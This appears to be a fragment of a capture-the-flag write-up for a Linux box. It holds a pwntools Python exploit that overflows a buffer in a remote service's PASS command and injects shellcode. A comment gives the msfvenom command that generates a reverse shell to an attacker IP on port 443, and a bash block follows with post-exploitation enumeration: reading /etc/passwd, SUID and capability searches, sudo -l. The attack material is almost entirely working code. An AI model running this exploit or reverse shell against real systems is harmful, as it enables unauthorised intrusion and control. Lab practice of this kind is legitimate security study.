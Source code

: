 ```python
buffer_address = 0xffffd610

if __name__ == '__main__':

    #context(os='linux', arch='i386')
    context.arch = 'i386'
    context.os = 'linux'
    p = remote(ip_target, port)

    before_eip = ("A" * offset).encode()
    eip = p32(buffer_address + 32)

    # ❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -b "\x00\x0a" -f python

    buf = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
    buf += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
    buf += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
    buf += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    buf += b"\x89\xe3\x31\xc9\xcd\x80"

    p.recvuntil(b"OK Ready. Send USER command.")
    p.sendline(b"USER admin")
    p.recvuntil(b"OK Send PASS command.")
    p.sendline(b"PASS " + before_eip + eip + buf)

    p.interactive()
```

```bash
./bin/python3 ./jail_bof.py
whoami
ip a
hostname
ifconfig
uname -a
lsb_release -a
cat /etc/os-release
cat /etc/passwd | grep 'sh$'
find \-perm -4000 2>/dev/null
# ./usr/bin/pkexec

getcap / -r 2>/dev/null
crontab -l
sudo -l
# (frank) NOPASSWD: /opt/logreader/logreader.sh

ls -l /opt/logreader/logreader.sh
cd /opt
cd logreader
cat ./logreader/logreader.sh
# :( Permission denied!!
```
